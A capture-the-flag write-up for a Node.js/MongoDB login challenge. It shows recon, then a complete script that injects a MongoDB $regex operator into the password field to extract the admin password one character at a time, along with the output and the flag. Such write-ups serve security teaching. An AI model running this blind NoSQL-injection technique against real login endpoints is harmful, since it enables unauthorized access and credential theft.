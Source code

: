 # Challenge name : Login
### Category : Web
### Authors: [Apoorva Pendse](https://github.com/apoorvapendse) and Gourav Suram


### Description

> Our admin belives his app is secure, please prove him wrong.


# Writeup
Author :[ Apoova Pendse](https://github.com/apoorvapendse)

## Recon 

Let's run ```nmap``` to find what we can:
![Alt text](image.png)

##### So, its a node.js application, noice..

Let's see the website
![Alt text](image-1.png)

nothing fancy...

### /index.js
![Alt text](image-2.png)

Basic express setup,hmm

### /database/db.js

![Alt text](image-3.png)

**Its clear that he's using MongoDB for the database by the mongoose import**


### /router/router.js
![Alt text](image-4.png)

### /controllers/login.js
![Alt text](image-5.png)

*It will be hard to do some NoSQL injection, because database is not queried directly - but with some mongoose models.*

*For now let's remember that application uses Schema.find method to search in a user collection, giving username and password properties that are received in the POST request body.*

*Also, worth remembering that API returns {logged: int, message: string} JSON.*


### /model/User.js
![Alt text](image-6.png)
Boilerplate ```Users``` model from ```Users``` collection registration.


This can be exploited using regex query since login checks username and password.

**Reference:** https://www.mongodb.com/docs/manual/reference/operator/query/regex/

As the description says admin, lemee try with username as admin

![Alt text](image-7.png)

The username is definitely ```admin```

So now all i have to do is figure characters step by step using the wildcard 

### solve.js
```javascript
const url = "https://login.ctf.teamquark.com/api/login";
let flag = "";
const allCharacters =
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^()@_{}";

async function solve() {
  while (true) {
    for (let i = 0; i < allCharacters.length; i++) {
      let currentChar = allCharacters[i];
      const passwordQuery = `^${flag}${currentChar}.*$`;
      const apiBody = {
        username: "admin",
        password: { "$regex": passwordQuery }
      };

      const response = await fetch(url, {
        method: "POST",
        headers: {
          "Content-type": "application/json",
        },
        body: JSON.stringify(apiBody),
      });

      const data = await response.json();
      if (data.logged == 1) {
        flag += currentChar;
        console.log(flag);
        if (currentChar === "}") 
        {
            console.log("Flag found:", flag);
            return;
        }

      }
    }
  }
}

solve();

```

This will append and test response for every char until we get the flag 

output:
```bash
$ node sol.js
q
qu
qua
quar
quark
quarkC
quarkCT
quarkCTF
quarkCTF{
quarkCTF{n
quarkCTF{n0
quarkCTF{n0s
quarkCTF{n0sq
quarkCTF{n0sqL
quarkCTF{n0sqL_
quarkCTF{n0sqL_s
quarkCTF{n0sqL_su
quarkCTF{n0sqL_sur
quarkCTF{n0sqL_sur3
quarkCTF{n0sqL_sur3_
quarkCTF{n0sqL_sur3_i
quarkCTF{n0sqL_sur3_i5
quarkCTF{n0sqL_sur3_i5_
quarkCTF{n0sqL_sur3_i5_f
quarkCTF{n0sqL_sur3_i5_fu
quarkCTF{n0sqL_sur3_i5_fun
quarkCTF{n0sqL_sur3_i5_fun}
Flag found: quarkCTF{n0sqL_sur3_i5_fun}
```

And There We Have The Flag!